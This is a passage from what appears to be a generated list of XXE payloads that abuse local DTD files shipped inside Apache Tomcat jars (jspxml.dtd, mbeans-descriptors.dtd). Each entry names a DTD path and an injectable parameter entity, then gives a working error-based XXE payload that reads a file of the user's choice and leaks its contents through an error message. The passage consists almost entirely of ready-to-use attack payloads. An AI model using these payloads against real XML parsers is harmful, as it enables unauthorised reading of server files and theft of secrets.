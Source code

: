 ```

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tomcat/embed/tomcat-embed-jasper/7.0.65/tomcat-embed-jasper-7.0.65.jar!/javax/servlet/jsp/resources/jspxml.dtd`

**Injectable entity:** `%URI`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tomcat/embed/tomcat-embed-jasper/7.0.65/tomcat-embed-jasper-7.0.65.jar!/javax/servlet/jsp/resources/jspxml.dtd">

    <!ENTITY % URI '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tomcat/tomcat-coyote/7.0.47/tomcat-coyote-7.0.47.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tomcat/tomcat-coyote/7.0.47/tomcat-coyote-7.0.47.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
